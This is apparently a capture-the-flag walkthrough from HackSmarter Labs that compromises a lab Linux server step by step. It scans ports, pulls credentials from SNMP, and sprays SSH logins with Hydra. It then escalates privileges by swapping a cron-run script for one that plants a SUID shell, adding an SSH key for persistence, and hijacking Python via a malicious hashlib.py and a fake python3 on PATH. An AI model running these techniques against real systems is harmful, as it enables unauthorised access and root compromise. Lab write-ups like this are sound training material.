




As a senior operator on the Hack Smarter Red Team, the objective is to perform a penetration test against a standalone Linux server. The goal is to gain initial access, escalate privileges to root, and retrieve the final flag from /root/.
Starting with a comprehensive TCP port scan to identify open services:
$ nmap -p- -T4 -sC -sV 10.1.54.58 -o nmap_scanOnly SSH was found open:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14Since TCP revealed minimal attack surface, I ran a UDP scan to discover additional services:
$ sudo nmap --top-ports 1000 -sU -T4 10.1.54.58 -o nmap_scan_udpPORT STATE SERVICE
161/udp open snmpI used snmpwalk to query the SNMP service with the default community string:
$ snmpwalk -v 2c -c public 10.1.54.58Key finding in the contact information:
iso.3.6.1.2.1.1.4.0 = STRING: "Admin Layne.Stanley:[REDACTED]'"Credentials leaked via SNMP: Layne.Stanley:[REDACTED]
I generated username permutations using username-anarchy to find the valid SSH username format:
$ ./username-anarchy --input-file names.txt --select-format first,flast,first.last,firstl,last > users.list
$ cat users.list
layne
layne.stanley
laynes
lstanley
stanleyUsing Hydra to validate the discovered credentials against the username list:
$ hydra -L users.list -p '[REDACTED]' ssh://10.1.54.58
Successfully authenticated as layne.stanley:
$ ssh layne.stanley@10.1.54.58
layne.stanley@ip-10-1-54-58:~$I noticed a script in the home directory owned by another user:
$ ls -la
-rwxr-x--- 1 scott.weiland layne.stanley 127 Sep 12 12:45 bankSmarter_backup.shI transferred pspy64 to monitor running processes:
$ ./pspy64
The script runs periodically as UID=1002 (scott.weiland):
$ getent passwd 1002
scott.weiland:x:1002:1002::/home/scott.weiland:/bin/bashThe script is owned by scott.weiland, but I have write access to the directory. This means I can rename the original script and create a malicious replacement:
$ mv bankSmarter_backup.sh bankSmarter_backup1.sh
$ cat > bankSmarter_backup.sh << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/.bash_scott
chmod 4755 /tmp/.bash_scott
EOF
$ chmod +x bankSmarter_backup.shAfter the cron job executes, I can leverage the SUID bash copy:
$ /tmp/.bash_scott -p
.bash_scott-5.2$ whoami
scott.weilandFor persistence, I added my SSH key to scott.weiland's authorized_keys:
$ mkdir -p /home/scott.weiland/.ssh
$ echo 'ssh-ed25519 AAAA...' >> /home/scott.weiland/.ssh/authorized_keys
$ chmod 700 /home/scott.weiland/.ssh
$ chmod 600 /home/scott.weiland/.ssh/authorized_keysContinuing process monitoring, I found another service running:
CMD: UID=1003 PID=530 | /usr/bin/python3 /opt/bank/pty_server.pyEnumerating /opt/bank revealed:
start_ronnie_tmux.sh sets up shared tmux/opt/bank/sockets/live.sockbank-team groupbank-team groupUsing socat to connect to the exposed Unix socket:
$ socat - UNIX-CONNECT:/opt/bank/sockets/live.sock
Searching for SUID binaries revealed a custom binary:
$ find / -perm -4000 -type f 2>/dev/null
/usr/local/bin/bank_backupd$ ls -la /usr/local/bin/bank_backupd
-rwsr-x--- 1 root bankers 16192 Sep 12 13:23 /usr/local/bin/bank_backupdThe binary has SUID bit set and is owned by root. Running it shows:
$ /usr/local/bin/bank_backupd
[bank_backupd] Starting backup for BankSmarter accounts...
[bank_backup.py] Running internal Python verification...
[bank_backup.py] Hashing account transactions...
[REDACTED]
[bank_backup.py] Backup completed successfully.The binary calls a Python script that imports hashlib:
#!/usr/bin/env python3
import hashlib, time, os
print("[bank_backup.py] Running internal Python verification...")
print(hashlib.sha256(b"transaction data").hexdigest())Created a malicious hashlib.py module:
$ cd /tmp
$ cat > hashlib.py << 'EOF'
#!/usr/bin/env python3
import os
os.setuid(0)
os.setgid(0)
os.system("/bin/bash -p")
EOFSet PYTHONPATH and execute the SUID binary:
$ export PYTHONPATH=/tmp
$ /usr/local/bin/bank_backupd
# cat /root/root.txt
FLAG{...}The Python script uses a shebang that relies on the PATH environment variable:
#!/usr/bin/env python3This means it uses whatever python3 is first in PATH. Alternative exploitation:
$ echo -e '#!/bin/bash\n/bin/bash -p' > /tmp/python3
$ chmod +x /tmp/python3
$ export PATH=/tmp:$PATH
$ /usr/local/bin/bank_backupd
# whoami
rootWalkthrough by Zerotrace | HackSmarter Labs